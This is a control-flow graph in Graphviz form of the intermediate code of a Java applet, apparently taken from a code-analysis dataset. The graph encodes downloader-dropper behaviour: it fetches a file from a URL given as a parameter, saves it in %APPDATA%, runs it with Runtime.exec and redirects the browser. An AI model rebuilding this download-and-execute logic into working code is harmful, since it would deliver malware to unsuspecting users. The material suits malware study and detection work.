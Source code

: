 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push \"FileName\""
    "load.r r0"->"push \"FileName\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"FileName\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"APPDATA\""
    "store.r r1"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"RunRedirect\""
    "load.r r0"->"push \"RunRedirect\"";
    "push \"RunRedirect\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r3"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r10"
    "new java.io.FileOutputStream"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "new java.lang.StringBuilder"
    "load.r $r10"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"URL\""
    "load.r r0"->"push \"URL\"";
    "push \"URL\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r6"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r6";
    "push 1024"
    "store.r r6"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "load.r r6"
    "store.r r7"->"load.r r6";
    "load.r r7"
    "load.r r6"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.r r7";
    "arraylength"
    "load.r r7"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r6"
    "push -1"->"ifcmpeq.i load.r r6";
    "ifcmpeq.i load.r r6"->"load.r $r10";
    "load.r $r10"->"load.r r7";
    "load.r r7"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r6"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r6";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "return"
    "staticinvoke <java.lang.System: void exit(int)>"->"return";
    "ifcmpeq.i load.r r6"->"load.r r6";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r6"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r10";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r10"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r3"
    "load.r r1"->"load.r r3";
    "load.r r3"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto return";
}
